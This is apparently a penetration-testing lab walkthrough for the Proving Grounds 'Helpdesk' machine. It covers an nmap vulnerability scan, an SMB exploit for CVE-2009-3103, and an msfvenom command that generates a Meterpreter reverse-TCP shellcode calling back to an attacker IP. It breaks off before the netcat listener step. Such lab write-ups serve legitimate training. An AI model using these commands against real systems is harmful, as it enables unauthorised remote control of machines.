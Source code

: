 ```yaml
---
title: Helpdesk Walkthrough - Proving Grounds
description: "Walkthrough of the Helpdesk machine from Proving Grounds "
author: Cyber Operator
date: 2024-07-24T14:48:18.308Z
tags:
  - Tags
---
```

# Helpdesk Exploitation Walkthrough

This machine is under the "Easy" level of Proving Grounds, it is valuable for general pentest practice or for exam preparation (such as OSCP etc).  This walkthrough may be completed under various sessions, you may see the target IP address change.

Step by step:

1. ## Scan with NMAP:

I like to do two nmap scans, one a very simple pass with the standard options.  This is mostly to have something to look at while waiting for the more detailed scan results, which follow this command:

`nmap -sC -sV --script vuln -p- [target IP]`

This will do a version scan, basic vulnerability check and scan all ports.  It takes time, good idea to let it run while we explore based on the simple scan results.

Here are the detailed scan results:

![](/static/img/screenshot-2024-07-24-at-11.26.36 am.png)

![](/static/img/screenshot-2024-07-24-at-11.27.38 am.png)

Right from the results, we see that there is a webserver in port 8080 and that there are some vulnerabilities (maybe user input fields, or a form).  So let's visit the site (IP:port combination) to see what's there:

![](/static/img/screenshot-2024-07-24-at-11.30.46 am.png)

There may be something there, let's see what else we can find first.  We see that this is a Windows Server, 2008 R2, RPC port, Microsoft Terminal service, SMB (an interoperability service) and some magic found in the form of CVE-2009-3103 "execute arbitrary code".  As interesting as the 8080 server is, this one seems like a juicier starting point so let's start there.

## 2. Exploitation

We find an exploit in Exploit DB, including the command to use msfvenom to generate the required shellcode:

![](/static/img/screenshot-2024-07-24-at-11.43.17 am.png)

Specifically, we need to download the exploit code, then replace the shellcode in the download with our own generated shellcode.  We will generate that shellcode using the following command (can be found as a comment on the exploit code)

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=[attacker IP] LPORT=[attacker port, such as 443]  EXITFUNC=thread  -f python`

Next, we generate our shellcode for our payload:

![](/static/img/screenshot-2024-07-24-at-11.50.17 am.png)

We now copy our payload into our downloaded exploit code, which we can edit using a text edit tool, here we used nano:

![](/static/img/screenshot-2024-07-24-at-11.55.49 am.png)

We need to start a netcat listener on the attack machine so that the target can communicate with our attack machine:



\-- COMING SOON ---
